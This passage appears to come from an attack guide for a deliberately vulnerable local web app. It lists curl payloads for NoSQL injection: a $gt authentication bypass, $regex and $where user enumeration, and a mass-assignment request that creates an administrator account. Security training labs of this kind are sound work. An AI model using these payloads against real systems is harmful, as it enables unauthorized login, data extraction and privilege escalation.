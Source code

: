 #### Greater Than Bypass

```bash
curl -X POST http://localhost:5001/api/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": {"$gt": ""},
    "password": {"$gt": ""}
  }'
```

### 2. User Enumeration

#### Find All Users

```bash
curl "http://localhost:5001/api/users?search[username][\$regex]=.*"
```

#### Find Admin Users

```bash
curl "http://localhost:5001/api/users?role[\$regex]=Admin"
```

#### Find Users by Pattern

```bash
curl "http://localhost:5001/api/users?search[username][\$regex]=^a"
```

#### Extract All User Data

```bash
curl "http://localhost:5001/api/users?search[\$where]=this.username.length%20%3E%200"
```

### 3. Privilege Escalation

#### Create Admin User

```bash
curl -X POST http://localhost:5001/api/users \
  -H "Content-Type: application/json" \
  -d '{
    "username": "hacker",
    "password": "hacked123",
    "email": "hacker@evil.com",
    "role": "Administrator",
    "isAdmin": true,
    "superuser": true
  }'
```

#### Create User with MongoDB Operators
